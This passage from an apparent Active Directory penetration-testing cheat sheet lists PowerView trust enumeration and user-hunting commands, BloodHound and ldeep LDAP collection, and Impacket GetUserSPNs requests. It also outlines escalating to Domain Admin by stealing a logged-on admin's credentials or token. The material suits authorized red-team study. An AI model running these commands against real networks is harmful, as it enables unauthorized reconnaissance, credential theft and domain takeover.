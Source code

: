 ```
Get-NetForestTrust
Get-NetDomainTrust -Forest <forest_name>
```
User Hunting:
```
# Find all machines on the current domain where the current user has local admin access
Find-LocalAdminAccess -Verbose

# Find local admins on all machines of the domain:
Invoke-EnumerateLocalAdmin -Verbose

# Find computers were a Domain Admin OR a spesified user has a session
Invoke-UserHunter
Invoke-UserHunter -GroupName "RDPUsers"
Invoke-UserHunter -Stealth

# Confirming admin access:
Invoke-UserHunter -CheckAccess
```
:heavy_exclamation_mark: **Priv Esc to Domain Admin with User Hunting:** \
I have local admin access on a machine -> A Domain Admin has a session on that machine 
  -> I steal his credentials/token and impersonate him

  [PowerView 3.0 Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

##### Bloodhound

With Powershell:
```
Invoke-BloodHound -CollectionMethod All,GPOLocalGroup,LoggedOn
Invoke-BloodHound -IgnoreLdapCert -LdapUser <user> -LdapPass <password> -CollectionMethod All,GPOLocalGroup,LoggedOn
```
With Exe:
```
.\sh.exe --CollectionMethod All,GPOLocalGroup
```

##### Ldeep
```
# Get users
ldeep -s 10.10.10.10 -d <DOMAIN_FQDN> -u <user> -p <password> users

# Dump all LDAP, generating also .lst files
ldeep -s 10.10.10.10 -d <DOMAIN_FQDN> -u <user> -p <password> all ldap_dump/
```

#### SPNs

With Impacket:
```
GetUserSPNs.py <domain_name>/<user>:<password>
GetUserSPNs.py <domain_name>/<user> -outputfile <filename> -hashes :<nt_hash>
```
